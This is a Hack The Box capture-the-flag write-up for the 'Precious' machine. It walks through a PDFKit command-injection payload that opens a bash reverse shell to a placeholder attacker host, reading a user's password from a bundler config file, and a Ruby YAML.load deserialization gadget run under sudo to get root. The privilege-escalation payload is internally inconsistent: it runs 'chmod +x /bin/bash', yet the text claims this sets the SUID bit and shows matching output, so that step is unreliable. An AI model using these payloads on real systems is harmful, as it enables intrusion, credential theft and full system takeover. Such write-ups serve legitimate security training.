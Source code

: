 ```yaml
---
title: Precious 
date: 2022-11-27 12:00:00
categories: [HTB,CTF]
tags: [htb]
---
```


# Enumeration

First let's add precious.htb to /etc/hosts

## Rustscan

```bash
mkdir rust; sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a precious.htb -- -sV -sC -oA ./rust/{{ip}}
```

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 65000.
Open 10.129.77.196:22
Open 10.129.77.196:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
|_http-title: Convert Web Page to PDF
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Port | Technology                |
| ---- | ------------------------- |
| 80   | NGINX + Phusion Passenger |

Phusion Passenger seems to be an extension to support various kinds of application type like ruby  
https://en.wikipedia.org/wiki/Phusion_Passenger

## Webpage

Visiting http://precious.htb will display a page that says "Convert Web Page to PDF".  
A quick check using a locally setup webserver showed that the page is exactly doing that.

Using Burp we check our requests and can identify that **Ruby** is used!

```http
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Sun, 27 Nov 2022 19:02:41 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
Content-Length: 506
```

## Dirsearch

Found nothing

## Feroxbuster

Also no results

# Exploitation

Searching for Ruby and HTML to PDF vulnerabilities will lead you to [PDFKIT - Command Injection](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

We'll use that POC to craft our payload and get a reverse shell  

**Payload**
```http
http://attacking.machine/?name=#{'%20`bash -c 'bash -i >& /dev/tcp/attacking-machine-ip/4000 0>&1'`'}
```

After submitting the malicious url on http://precious.htb we will receive a reverse shell as user `ruby`  

## Become User henry

In `/home/ruby/.bundle` is a file located that is called `config`.  In that file you will find the password of user `henry`

```yaml
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:CENSORED"
```

Become User `henry`

```bash
su - henry
```

# Escalation

## Local Enumeration

Always the first thing todo is to check for any sudo privileges

```bash
sudo -l
```

```bash
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Looks like we are allowed to update dependencies as root user. Smells like a ruby deserialization attack

**/opt/update_dependencies.rb**

Checking the file we are allowed to run will confirm my assumption. `YAML.load` is extremely unsafe and shouldn't be used according to [Ruby - YAML](https://ruby-doc.org/stdlib-2.5.1/libdoc/yaml/rdoc/YAML.html)

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

# Privilege Escalation

We will use a Universal RCE with Ruby YAML.load - [YAML.load - RCE](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)

## dependencies.yaml

First we have to create the dependencies.yaml file in our current location and modify `git_set` to add suid on `/bin/bash`

```YAML
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +x /bin/bash
         method_id: :resolve
```

## Root

```bash
# Will throw some errors after execution
sudo /usr/bin/ruby /opt/update_dependencies.rb
# Check permissions on /bin/bash
ls -al /bin/bash
# -rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

```bash
# If bash has SUID bit set it does not drop the elevated privileges. So we will use that as planned 
/bin/bash -p
id
# uid=0(root) gid=0(root) groups=0(root)
```